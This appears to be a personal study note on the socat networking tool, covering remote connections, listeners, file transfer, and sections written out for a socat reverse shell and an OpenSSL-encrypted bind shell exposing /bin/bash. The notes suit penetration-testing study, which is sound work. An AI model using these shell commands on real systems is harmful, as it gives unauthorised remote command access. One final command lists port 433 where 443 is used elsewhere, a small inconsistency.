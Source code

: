 
> for transferring data using two bidirectional byte streams (similar to netcat)
> 
> Platforms: Windows or Linux
### Connect to remote server
- `socat - TCP4:10.11.0.22:110`
	- `-`: transfer data between standard io and the remote host
	- colon-delimited values:
		- `TCP4`: protocol
		- `10.11.0.22`: destination ip address
		- `110`: destination port
	- E.g. ![[Pasted image 20231224123104.png]]
### Start a listener
- note: root privileges required to bind a listener on privileged port (TCP/IP port numbers below 1024)
- `sudo socat TCP4-LISTEN:443 STDOUT`
	- `TCP4-LISTEN`: protocol, listener
	- `443`: port
	- `STDOUT`: redirect standard output

## File Transfer
- share file: `sudo socat TCP4-LISTEN:443,fork file:sentfile.txt`
	- `fork`: create child process once connection is made to the listener
- receive file: `socat TCP4:10.11.0.4:443 file: receivedfile.txt,create`

## Reverse Shell
- on remote machine: `socat -d -d TCP4-LISTEN:443 STDOUT`
	- `-d -d`: increase verbosity
- on target machine: `socat TCP4:10.11.0.22:443 EXEC:/bin/bash`
	- `EXEC`: similar to `-e` in netcat

### Encrypted Bind Shell
1. Generate key and certificate
	- `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`
		- `-newkey`: generate a new private key
			- `rsa:2048`: specify RSA with 2048-bit key length
		- `-nodes`: store private key unencrypted
		- `-keyout [keyfilename]`: save key to file
		- `-days [days]`: specify validity period in days
		- `-out [certfilename]`: save certificate to file
		- ![[Pasted image 20231224150143.png]]
2. Convert key and certificate to a format accepted by socat
	- `cat bind_shell.key bind_shell.crt > bind_shell.pem`
3. Create socat listener on target machine
	- `sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
		- `OPENSSL-LISTEN:[port]`: create listener on port
		- `cert=[certfile]`: specify certificate file
		- `verify=0`: disable SSL certificate verification
		- `fork`: spawn child process once SSL is connected to a listener
4. Connect remote machine to target machine
	- `socat - OPENSSL:10.11.0.4:433,verify=0`
		- `-`: transfer data between standard IO and target machine
		- `OPENSSL`: establish remote SSL connection to the listener
		- `verify=0`: disable SSL certificate verification
